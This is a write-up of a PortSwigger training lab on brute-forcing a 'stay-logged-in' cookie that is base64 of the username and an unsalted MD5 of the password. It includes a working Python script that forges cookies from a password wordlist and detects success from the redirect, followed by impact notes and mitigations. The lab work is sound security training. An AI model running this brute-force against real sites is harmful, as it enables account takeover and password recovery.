

# Brute-forcing a stay-logged-in cookie

**Category:** Web Exploitation — Authentication
**Difficulty:** Practicioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie`

---

## Reconnaissance

- What does the application do? 
    - The website is a blog about several, seemingly to tech related topics. Users can read and leave comments under blog articles.
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - There is an account page with a login, the comments below articles can be consideres input too.
- What happens with normal input?
    - Correct user logins log the user in normally, if setting the logged in checkbox it keeps the user logged in for next time

---

## Analysis


#### Vulnerability

The vulnerable part of this lab is the cookie. In this case it consists of username and the (unsalted) md5 hash of the password, together encoded as base64. This is very easy to reconstruct if an attacker is allowed to also create accounts and study the pattern. This also is not affected by any rate limiting/lock out protections, since it is not the login but the cookie that is vulnerable. 

---

## Solution 

### Step 1 - Recon / Looking at responses

When checking the 'stay logged in' box, the cookie parameter 'stay-locked-in' is set to on and the response contains an encoded string for it.


I put it into 'CyberChef' and it showed this encoded string is a base64 encoded string.
The original reads: `wiener:51dc30ddc473d43a6011e9ebba6ca770`.
This means the first part of the encoded string comes from the username, which indicates that `51dc30ddc473d43a6011e9ebba6ca770` might just be a password hash.

I just googled 'online hash generator' and wanted to try some different algorithms. The first one was already correct, it is an md5 hash of our password `peter`


---

### Step 2 - Enumeration / Step 3 - Exploit

I solved this again with python. First I made sure I got everything correct using the account given ('wiener:peter'). Hashing and encoding was easy to get right. Now the oracle just had to be set correctly. In this case if the password is incorrect the repsonse will circle back to the login page instead of the account page so this is our clue.
```python
import requests
import hashlib
import base64

url = """https://0a52009b040b875680099e33006b00d8.web-security-academy.net/my-account?id=carlos"""

with open("authentication_lab_passwords.txt") as f:
    for line in f:
        encoded_line = line.strip().encode(encoding="utf-8")
        md5=hashlib.md5(encoded_line)
        full_string = "carlos:"+md5.hexdigest()
   
        b64_string = base64.b64encode(full_string.encode())           # hexdigest has the right format - the same, that the website also uses
        final_string=b64_string.decode()
        cookie = {"stay-logged-in":final_string}

        r= requests.get(url, cookies=cookie)                         
        if r.url == url:                                             # if the password is wrong it will go back to https://0a52009b040b875680099e33006b00d8.web-security-academy.net/login
            print(line)
            break

```
The lab is solved automatically as soon as the correct request is sent.

---
## Real World Impact

Hacking this cookie does not just login an attacker. It gets him persistent access. This might potentially also get an attacker around mfa since he is already logged in. At the same time this leaks the password of the user which he might have used in other applications and websites. A more secure cookie would ideally not just use username and password but some random value from the server, and hash and encode it with algorithms that take longer to compure like a salted 'bcript' or 'Argon2'

---
## Learnings

- cookiers are their own attack surface, which might not be affected by rate limiting/lock outs.
- calibrate the oracle on known cases to save time.
